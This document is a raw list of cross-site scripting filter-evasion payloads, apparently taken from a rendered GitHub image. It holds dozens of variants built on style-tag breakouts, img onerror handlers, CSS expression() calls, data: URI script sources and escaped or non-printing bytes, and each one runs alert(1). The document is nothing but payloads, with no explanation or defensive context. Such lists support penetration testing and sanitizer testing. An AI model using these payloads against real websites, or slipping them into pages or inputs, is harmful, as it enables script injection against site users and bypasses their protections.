 &lt;style&gt;&lt;/style\x0D&lt;img src="about:blank" onerror=javascript:alert(1)//&gt;&lt;/style&gt;

&lt;style&gt;&lt;/style\x09&lt;img src="about:blank" onerror=javascript:alert(1)//&gt;&lt;/style&gt;

&lt;style&gt;&lt;/style\x20&lt;img src="about:blank" onerror=javascript:alert(1)//&gt;&lt;/style&gt;

&lt;style&gt;&lt;/style\x0A&lt;img src="about:blank" onerror=javascript:alert(1)//&gt;&lt;/style&gt;

"'`&gt;ABC&lt;div style="font-family:'foo'\x7Dx:expression(javascript:alert(1);/*';"&gt;DEF

"'`&gt;ABC&lt;div style="font-family:'foo'\x3Bx:expression(javascript:alert(1);/*';"&gt;DEF

&lt;script&gt;if("x\\xE1\x96\x89".length==2) { javascript:alert(1);}&lt;/script&gt;

&lt;script&gt;if("x\\xE0\xB9\x92".length==2) { javascript:alert(1);}&lt;/script&gt;

&lt;script&gt;if("x\\xEE\xA9\x93".length==2) { javascript:alert(1);}&lt;/script&gt;

"'`&gt;&lt;\x3Cimg src=xxx:x onerror=javascript:alert(1)&gt;

"'`&gt;&lt;\x00img src=xxx:x onerror=javascript:alert(1)&gt;

&lt;script src="data:text/plain\x2Cjavascript:alert(1)"&gt;&lt;/script&gt;

&lt;script src="data:\xD4\x8F,javascript:alert(1)"&gt;&lt;/script&gt;

&lt;script src="data:\xE0\xA4\x98,javascript:alert(1)"&gt;&lt;/script&gt;

&lt;script src="data:\xCB\x8F,javascript:alert(1)"&gt;&lt;/script&gt;

&lt;script\x20type="text/javascript"&gt;javascript:alert(1);&lt;/script&gt;

ABC&lt;div style="x\x3Aexpression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:expression\x5C(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:expression\x00(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:exp\x00ression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:exp\x5Cression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\x0Aexpression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\x09expression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\xE3\x80\x80expression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\xE2\x80\x84expression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\xC2\xA0expression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\xE2\x80\x80expression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\xE2\x80\x8Aexpression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\x0Dexpression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\x0Cexpression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\xE2\x80\x87expression(javascript:alert(1)"&gt;DEF
